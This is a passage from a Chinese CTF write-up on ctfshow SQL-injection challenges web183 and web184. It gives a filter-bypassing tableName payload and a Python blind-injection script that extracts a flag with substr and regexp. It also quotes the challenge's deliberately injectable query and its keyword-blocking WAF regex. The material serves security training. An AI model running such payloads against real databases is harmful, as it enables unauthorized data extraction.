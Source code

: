 发现有一条记录

```
tableName=%60ctfshow_user%60where%60pass%60like%22%25f%25%22
```

```
`ctfshow_user`where`pass`like"%f%"
```

我们可以试试盲注，regexp()为正则匹配

```python
# @Author:Y4tacker
import requests

url = 'http://25bab1c0-bb8d-42b6-a644-e5d075213e90.challenge.ctf.show/select-waf.php'
flagstr = r"{flqazwsxedcrvtgbyhnujmikolp-0123456789}"
res = ""
for i in range(1,46):
    for j in flagstr:
        data = {
            'tableName': f"(ctfshow_user)where(substr(pass,{i},1))regexp('{j}')"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 1;") > 0:
            res += j
            print(res)
            break
```

## web184*

### 题目

查询语句

```
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";    
```

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }     
```

查询结果

```
//返回用户表的记录总数
      $user_count = 0;    
```
